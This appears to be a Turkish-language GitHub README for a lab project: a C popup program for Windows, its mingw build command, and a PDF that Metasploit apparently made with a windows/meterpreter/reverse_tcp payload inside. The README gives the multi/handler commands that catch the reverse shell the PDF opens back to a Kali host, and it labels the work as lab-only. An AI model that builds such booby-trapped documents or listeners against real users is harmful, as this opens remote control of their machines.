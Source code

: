 # ⚙️ Popup ve Payload Uygulaması

Bu proje, C diliyle yazılmış bir **popup mesajı çıkaran Windows uygulamasını** ve  
bununla birlikte kullanılan PDF dosyalarını içerir. Ayrıca, zararlı içerik içeren bir PDF dosyası da Metasploit ile test amaçlı üretilmiştir.

---

## 📁 Proje Dosyaları

| Dosya Adı           | Açıklama                                                                 |
|---------------------|--------------------------------------------------------------------------|
| `popup.c`           | C dili ile yazılmış mesaj kutusu çıkaran kaynak kod                      |
| `popup.exe`         | Derlenmiş çalıştırılabilir uygulama (Windows için)                       |
| `popup_2.pdf`       | Test amaçlı, boş veya örnek bir PDF dosyası                              |
| `kapsullu_pdf.pdf`  | Metasploit ile oluşturulmuş, içine payload gömülü zararlı PDF örneği     |

---

## 🚀 Uygulama Kullanımı

### Popup Uygulaması:
- `popup.exe` çift tıklanarak çalıştırıldığında ekrana uyarı mesajı çıkar:


### Derlemek için:
Kali Linux üzerinde şu komut ile derlenmiştir:

```bash
x86_64-w64-mingw32-gcc popup.c -o popup.exe

☣️ Zararlı PDF Bilgisi (Metasploit)
kapsullu_pdf.pdf, windows/meterpreter/reverse_tcp payload'ı gömülerek oluşturulmuştur.

Kullanım örneği:

bash
Kopyala
Düzenle
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Kali_IP>
set LPORT 4444
run
Açıldığında Kali’ye ters bağlantı gönderir.

⚠️ Bu dosya sadece laboratuvar/test ortamlarında kullanılmalıdır.